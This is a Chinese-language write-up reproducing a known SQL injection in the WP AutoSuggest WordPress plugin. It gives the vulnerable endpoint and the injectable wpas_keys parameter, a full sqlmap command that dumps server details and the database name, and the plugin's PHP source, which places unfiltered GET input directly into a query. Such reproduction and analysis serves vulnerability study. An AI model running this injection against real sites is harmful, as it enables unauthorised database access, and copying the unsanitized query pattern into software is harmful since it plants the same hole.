




WordPress Plugin - AutoSuggest sql注入
======================================

一、漏洞简介
------------

WP
AutoSuggest这款插件在访问者输入关键字时，插件会在提交搜索查询之前通过AJAX请求在网页中显示一些建议。访问者可以通过按Enter继续搜索，或者访问者可以使用键盘箭头直接访问建议的帖子。

二、漏洞影响
------------

三、复现过程
------------

首先我们得进入exploit-db网站上下载这个存在漏洞的版本的插件原始码和本地构建WordPress网站（本地构建WordPress这里就不说了）。下载源码，如下图所示

下载完成之后，把wp-autosuggest目录直接拖到Wordpress目录的\\wp-content\\plugins\\下。

接着，登录后台，启用这款插件，如下图所示：

启用后，退出后台，如下图所示：

然后根据exploit-db网站上给出的漏洞详情，我们访问下面的URL：

    http://www.0-sec.org/wp-content/plugins/wp-autosuggest/autosuggest.php?wpas_action=query&wpas_keys=1

访问后，网页内容如下图所示：

根据exploit-db网站上给出的漏洞详情，我们也知道了wpas\_keys参数存在注入，于是我们可以使用SQLMAP注入神器，对网站进行注入。SQLMAP命令如下：

    sqlmap.py -u "http://www.0-sec.org/wp-content/plugins/wp-autosuggest/autosuggest.php?wpas_action=query&wpas_keys=1*" --technique BT --dbms MYSQL --risk 3 --level 5 --tamper space2comment

一开始，笔者使用的时php5.2.17+Apache的环境，结果复现不了，头疼了半天，如下图：

后来笔者换了一个php-5.4.45+Apache的环境，就解决了。

通过SQLMAP，成功获取到服务器的一些信息，如下图所示：

下图也成功跑出了当前数据库的名称。

### 漏洞分析

分析WordPress插件的话还是挺容易的。文件和代码也不是很多，用Notepad++就够用啦。进入插件根目录下面就看到了autosuggest\_functions.php、autosuggest.php这两个php文件。

下面是autosuggest.php文件所有代码：

    <?php
    include 'autosuggest_functions.php';

    $wpas_action = '';
    $wpas_keys = '';
    if(isset($_GET['wpas_action'])) {
        $wpas_action = $_GET['wpas_action'];
    }
    if (isset($_GET['wpas_keys'])) {
        $wpas_keys = $_GET['wpas_keys'];
    }

    if ($wpas_action == 'query') {

        require_once ('../../../wp-config.php');

        header('Content-Type: text/xml');
        echo '<results>';

        global $wpdb;

        $wpas_keys = str_replace(' ','%',$wpas_keys);
        $pageposts = $wpdb->get_results("SELECT * FROM $wpdb->posts WHERE (post_title LIKE '%$wpas_keys%') AND post_status = 'publish' ORDER BY post_date DESC");
        foreach ($pageposts as $post) {
            setup_postdata($post);
            echo "<rs id=\"";
            the_permalink();
            echo "\" info=\"" . autosuggest_excerpt(apply_filters('the_title', get_the_content())) . "\">";
            the_title();
            echo "</rs>";
        }
        echo '</results>';
        die();
    }

    define('AUTOSUGGEST_DIR', get_option('siteurl') . '/' . PLUGINDIR.'/'.dirname(plugin_basename(__FILE__)));

    function add_autosuggest_css() {
        wp_register_style('autosuggestCSS', AUTOSUGGEST_DIR . '/css/wp_autosuggest.css', null, '1', 'screen');
        wp_enqueue_style('autosuggestCSS');
    }

    function add_autosuggest_js() {
        wp_register_script('autosuggestJS', AUTOSUGGEST_DIR . '/js/wp.autosuggest.js', null, '1');
        wp_enqueue_script('autosuggestJS');
    }

    function add_autosuggest_footer_code() {
    ?>
    
    <?php
    }

    function add_autosuggest_settings() {
    ?>
    

        <?php

            $smsg = "";
            if (isset($_POST['submitoptions'])) {
                if (isset($_POST['wpas_input_id'])) {
                    update_option('wpas_input_id',$_POST['wpas_input_id']);
                }
                if (isset($_POST['wpas_maxresults'])) {
                    update_option('wpas_maxresults',$_POST['wpas_maxresults']);
                }
                ?>

                

WP AutoSuggest settings updated.

        <?php } ?>

        <h2>WP AutoSuggest Settings</h2>

        <form action="" method="post">
        <table class="form-table">
            <tr valign="top">
            <th scope="row">Search Input ID</th>
            <td>
            <input type="text" value="<?php echo get_wpas_option('wpas_input_id','s'); ?>" id="wpas_input_id" name="wpas_input_id"/> 
            Default value is 's' which is used with the default WordPress theme. 
            </td>
            </tr>
            <tr valign="top">
            <th scope="row">Max Results</th>
            <td>
            <input type="text" value="<?php echo get_wpas_option('wpas_maxresults','10'); ?>" id="wpas_maxresults" name="wpas_maxresults"/> 
            Maximum number of suggested results (10 by default).
            </td>
            </tr>
        </table>
        
<input type="submit" name="submitoptions" value="Update Settings" />

        </form>
        

    <?php
    }

    function add_autosuggest_menu_settings() {
        if (function_exists('add_options_page')) {
             add_options_page(
                 "WP AutoSuggest"
                 , "WP AutoSuggest"
                 , 7
                 , basename(__FILE__)
                 , 'add_autosuggest_settings');
        }
    }

    add_action('wp_print_scripts', 'add_autosuggest_js');
    add_action('wp_print_styles', 'add_autosuggest_css');
    add_action('wp_footer', 'add_autosuggest_footer_code');
    add_action('admin_menu', 'add_autosuggest_menu_settings');

    ?>

相信大家没看几行就看出了问题的所在，变量wpas\_keys是直接获取GET中的wpas\_keys。一点都没过滤，并且在下面代码中，变量wpas\_keys也带入数据库中查询了（wpdb是wordpress操作数据库方法），于是SQL注入就产生了。

四、参考链接
------------

> <https://www.exploit-db.com/exploits/45977>
>
> <https://www.freebuf.com/vuls/191869.html>
